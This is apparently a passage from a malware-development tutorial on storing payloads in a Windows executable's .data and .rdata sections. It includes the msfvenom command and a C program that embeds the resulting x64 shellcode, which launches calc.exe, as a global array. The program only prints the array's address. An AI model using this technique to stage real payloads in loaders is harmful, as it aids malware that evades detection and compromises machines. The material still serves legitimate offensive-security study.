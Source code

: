 - `.data`
- `.rdata`
- `.text`
- `.rsrc`

This module demonstrates how to store payloads in the??`.data`??and??`.rdata`??PE sections.

### .data Section

The??`.data`??section of a PE file is a section of a program's executable file that contains initialized global and static variables. This section is readable and writable, making it suitable for an encrypted payload that requires decryption during runtime. If the payload is a global or local variable, it will be stored in the??`.data`??section, depending on the compiler settings.

The code snippet below shows an example of having a payload stored in the??`.data`??section.

```c
#include <Windows.h>
#include <stdio.h>

// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c 
// .data saved payload
unsigned char Data_RawData[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main() {

	printf("[i] Data_RawData var : 0x%p \n", Data_RawData);
	printf("[#] Press <Enter> To Quit ...");
	getchar();
	return 0;
}

```
